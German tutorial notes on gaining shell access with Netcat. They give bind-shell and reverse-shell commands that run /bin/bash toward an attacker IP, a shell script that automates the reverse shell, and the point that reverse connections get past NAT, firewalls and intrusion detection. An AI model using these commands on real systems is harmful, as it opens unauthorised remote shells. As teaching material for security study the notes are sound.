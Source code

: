 
## Shellzugriff
*Möglich über ssh, rsh, telnet, etc. -> aber auch über **Netcat** möglich*

- Victim startet Netcat und wartet auf Verbindung
```bash
nc -l 3333 -e /bin/bash
```

- Hacker verbindet sich mit Server
```bash
nc 10.140.0.12 3333
```

- Hacker hat nun Zugriff auf die Shell des Victims und **kann Befehle ausführen!**
### Nachteile für Hacker
- Interne IP-Adresse, NAT -> ohne Port-Forwarding nicht erreichbar
- Firewall -> blockt eingehende Verbindungen
- IDS -> erkennt Hacker-Aktivitäten und blockt Verbindungen
(IDS: Intrusion Detection System)

### Lösung: Victim verbindet sich mit Hacker (Reverse Shell)
- Hacker startet Netcat und wartet auf Verbindung
```bash
nc -l 3333
```

- Victim verbindet sich mit Hacker
```bash
nc 10.140.0.3 3333 -e /bin/bash
```

- Hacker hat nun Zugriff auf die Shell des Victims und **kann Befehle ausführen!**
- Optimierung: sh script
```bash
#!/bin/bash
nc 10.140.0.3 3333 -e /bin/bash
```

## Netcat unter Windows
- Netcat ist auch unter Windows verfügbar aber nicht standardmäßig installiert
- Download: https://eternallybored.org/misc/netcat/
- Installation: `nc.exe` in `C:\Windows\System32` kopieren
- Es gibt auch eine GUI-Version von Netcat: https://sourceforge.net/projects/nc110/
- GUI-Version ist einfacher zu bedienen, aber weniger flexibel
- GUI-Version kann auch für Port-Scanning, Port-Forwarding, etc. verwendet werden